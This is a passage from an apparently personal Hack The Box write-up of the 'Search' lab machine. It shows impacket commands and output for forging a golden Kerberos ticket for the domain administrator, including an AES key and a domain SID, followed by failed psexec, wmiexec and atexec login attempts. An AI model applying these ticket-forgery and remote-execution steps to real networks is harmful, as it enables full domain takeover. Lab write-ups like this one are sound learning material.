/usr/share/doc/python3-impacket/examples/ticketer.py:139: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for search.htb/administrator
/usr/share/doc/python3-impacket/examples/ticketer.py:598: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/usr/share/doc/python3-impacket/examples/ticketer.py:716: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/usr/share/doc/python3-impacket/examples/ticketer.py:717: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
/usr/share/doc/python3-impacket/examples/ticketer.py:841: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache
```

Exporting the environmental variable and verifying:

```console
$ export KRB5CCNAME=$PWD/administrator.ccache

$ klist
Ticket cache: FILE:/home/e/htb-search/administrator.ccache
Default principal: administrator@SEARCH.HTB

Valid starting       Expires              Service principal
10/04/2024 09:28:27  10/02/2034 09:28:27  krbtgt/SEARCH.HTB@SEARCH.HTB
        renew until 10/02/2034 09:28:27
```

Then I try `psexec`:

```console
$ impacket-psexec search.htb/administrator@search.htb -k -no-pass -debug
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] StringBinding ncacn_np:search.htb[\pipe\svcctl]
[+] Using Kerberos Cache: /home/e/htb-search/administrator.ccache
[+] SPN CIFS/SEARCH.HTB@SEARCH.HTB not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/SEARCH.HTB@SEARCH.HTB
[+] Using TGS from cache
[+] Changing sname from krbtgt/SEARCH.HTB@SEARCH.HTB to CIFS/SEARCH.HTB@SEARCH.HTB and hoping for the best
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/smbconnection.py", line 319, in kerberosLogin
    return self._SMBConnection.kerberosLogin(user, password, domain, lmhash, nthash, aesKey, kdcHost, TGT,
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3.py", line 830, in kerberosLogin
    if ans.isValidAnswer(STATUS_SUCCESS):
       ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3structs.py", line 458, in isValidAnswer
    raise smb3.SessionError(self['Status'], self)
impacket.smb3.SessionError: SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/usr/share/doc/python3-impacket/examples/psexec.py", line 123, in doStuff
    dce.connect()
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 803, in connect
    return self._transport.connect()
           ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/transport.py", line 514, in connect
    self.__smb_connection.kerberosLogin(self._username, self._password, self._domain, self._lmhash,
  File "/usr/lib/python3/dist-packages/impacket/smbconnection.py", line 322, in kerberosLogin
    raise SessionError(e.get_error_code(), e.get_error_packet())
impacket.smbconnection.SessionError: SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.
[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.
^ rc=1
```

I try `wmiexec` and `atexec`, but get the same error.

I also try using the AES256 key:

```text
$ impacket-ticketer -aesKey ee074e16c57124602342f055d5d66442 -domain-sid S-1-5-21-271492789-1610487937-1871574529 -domain search.htb administrator
```

But, I get the same results. I even tried the AES128 key. Same.

This _might_ have something to do with message signing being enabled. From `nmap`:

```console
smb2-security-mode:
  3:1:1:
Message signing enabled and required
```

## Credits

- [0xdf](https://0xdf.gitlab.io/2022/04/30/htb-search.html) helped me spot the hidden password in the "stock photography" `:\`
